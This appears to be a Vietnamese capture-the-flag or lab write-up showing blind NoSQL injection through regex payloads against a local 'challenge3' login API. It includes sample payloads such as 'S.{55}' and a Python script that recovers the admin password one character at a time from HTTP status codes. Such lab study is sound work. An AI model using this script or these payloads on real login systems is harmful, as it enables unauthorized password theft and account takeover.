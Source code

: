 ![image](https://hackmd.io/_uploads/ry7Oeeb6gx.png)

Ta sẽ test thử từ 1 đến 100 xem sao.

![image](https://hackmd.io/_uploads/ByqjggWpee.png)

Với số 56 ta nhận về được response 200 duy nhất nên có thể xác định password có 56 kí tự.

Từ đây ta sẽ tiến hành tìm từng kí tự của password với giới hạn là 56 kí tự.

![image](https://hackmd.io/_uploads/ByMf-xb6xe.png)

Với regex `A.{55}` này thì nó có nghĩa là kí tự đầu sẽ là A và 55 kí tự còn lại là bất cứ thứ gì nhưng có vẻ với kí tự đầu tiên là A đã sai vì server trả về response là 401.

![image](https://hackmd.io/_uploads/r1eDWeWTgx.png)

Tiến hành thử với chữ S thì ta đã thành công trong việc dump ra được kí tự đầu tiên của password vì server đã trả về response là 200 cho payload `S.{55}`.

Nếu test tay với password có độ dài khủng như này thì sẽ rất là mất thời gian dò nên ta hoàn toàn có thể lợi dụng python script để có thể dump password một cách nhanh chóng.

```python 
import requests
import string

url = "http://localhost:8080/api/challenge3/login"
password_length = 56 
known_password = ""
charset = string.ascii_letters + string.digits + "_-" # Bộ ký tự để đoán

# Vòng lặp để tìm từng ký tự của mật khẩu
for i in range(password_length):
    # Vòng lặp để thử từng ký tự trong bộ ký tự
    for char in charset:
        guess = known_password + char
        
        payload_regex = guess + ".*"
        
        json_data = {"username": "admin", "password": payload_regex}
        response = requests.post(url, json=json_data)
        
        if response.status_code == 200:
            known_password = guess
            print(f"Tìm thấy ký tự tiếp theo: {known_password}")
            break 
            
print(f"\nKhai thác hoàn tất! Mật khẩu là: {known_password}")
```

![image](https://hackmd.io/_uploads/Bkl5zg-6ee.png)

Thành công dump ra password bây giờ ta sẽ thử đăng nhập xem liệu password này có đúng hay không.

![image](https://hackmd.io/_uploads/HyZ6MgZaee.png)

Đăng nhập thành công với password trên vậy nên ta đã khai thác thành công Blind NoSQLi bằng kĩ thuật Regex Injection.

